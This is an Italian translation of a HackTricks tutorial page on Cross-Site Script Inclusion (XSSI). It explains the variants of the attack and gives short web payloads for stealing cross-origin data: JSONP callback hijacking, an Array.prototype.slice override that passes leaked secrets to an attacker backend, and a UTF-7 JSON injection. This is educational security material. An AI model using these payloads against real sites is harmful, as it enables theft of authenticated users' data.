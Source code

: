 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** è una vulnerabilità che deriva dalla natura del tag `script` in HTML. A differenza della maggior parte delle risorse, che sono soggette alla **Same-Origin Policy (SOP)**, gli script possono essere inclusi da domini diversi. Questo comportamento è inteso a facilitare l'uso di librerie e altre risorse ospitate su server diversi, ma introduce anche un potenziale rischio per la sicurezza.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Gli script sono esenti dalla **Same-Origin Policy**, consentendo loro di essere inclusi tra domini.
- **Data Exposure**: Un attaccante può sfruttare questo comportamento per leggere i dati caricati tramite il tag `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** è particolarmente rilevante per JavaScript dinamico o **JSON with Padding (JSONP)**. Queste tecnologie utilizzano spesso informazioni di "ambient-authority" (come i cookie) per l'autenticazione. Quando viene effettuata una richiesta di script a un host diverso, queste credenziali (ad es. cookie) vengono automaticamente incluse nella richiesta.
- **Authentication Token Leakage**: Se un attaccante riesce a ingannare il browser di un utente per richiedere uno script da un server che controlla, potrebbe essere in grado di accedere a informazioni sensibili contenute in queste richieste.

### Types

1. **Static JavaScript** - Questo rappresenta la forma convenzionale di XSSI.
2. **Static JavaScript with Authentication** - Questo tipo è distinto perché richiede autenticazione per l'accesso.
3. **Dynamic JavaScript** - Coinvolge JavaScript che genera contenuti dinamicamente.
4. **Non-JavaScript** - Si riferisce a vulnerabilità che non coinvolgono direttamente JavaScript.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
In questo approccio, informazioni private sono incorporate all'interno di un file JavaScript accessibile globalmente. Gli attaccanti possono identificare questi file utilizzando metodi come la lettura di file, ricerche per parole chiave o espressioni regolari. Una volta localizzato, lo script contenente informazioni private può essere incluso in contenuti malevoli, consentendo accesso non autorizzato a dati sensibili. Un esempio di tecnica di sfruttamento è mostrato di seguito:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI e Authenticated-JavaScript-XSSI
Questi tipi di attacchi XSSI comportano l'aggiunta dinamica di informazioni riservate allo script in risposta a una richiesta dell'utente. La rilevazione può essere effettuata inviando richieste con e senza cookie e confrontando le risposte. Se le informazioni differiscono, potrebbe indicare la presenza di informazioni riservate. Questo processo può essere automatizzato utilizzando strumenti come l'estensione Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Se i dati riservati sono memorizzati in una variabile globale, possono essere sfruttati utilizzando metodi simili a quelli utilizzati nel Regular XSSI. Tuttavia, se i dati riservati sono inclusi in una risposta JSONP, gli attaccanti possono dirottare la funzione di callback per recuperare le informazioni. Questo può essere fatto manipolando oggetti globali o impostando una funzione da eseguire nella risposta JSONP, come dimostrato di seguito:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Per le variabili che non risiedono nello spazio dei nomi globale, *prototype tampering* può a volte essere sfruttato. Questa tecnica sfrutta il design di JavaScript, dove l'interpretazione del codice comporta l'attraversamento della catena del prototipo per localizzare la proprietà chiamata. Sovrascrivendo determinate funzioni, come `Array`'s `slice`, gli attaccanti possono accedere e leakare variabili non globali:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Ulteriori dettagli sugli attacchi possono essere trovati nel lavoro del ricercatore di sicurezza [Sebastian Lekies](https://twitter.com/slekies), che mantiene un elenco di [vettori](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
La ricerca di Takeshi Terada introduce un'altra forma di XSSI, in cui i file Non-Script, come CSV, vengono leakati cross-origin includendoli come sorgenti in un tag `script`. I casi storici di XSSI, come l'attacco del 2006 di Jeremiah Grossman per leggere un intero rubrica di Google e il leak di dati JSON di Joe Walker nel 2007, evidenziano la gravità di queste minacce. Inoltre, Gareth Heyes descrive una variante di attacco che coinvolge JSON codificato in UTF-7 per sfuggire al formato JSON ed eseguire script, efficace in alcuni browser:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
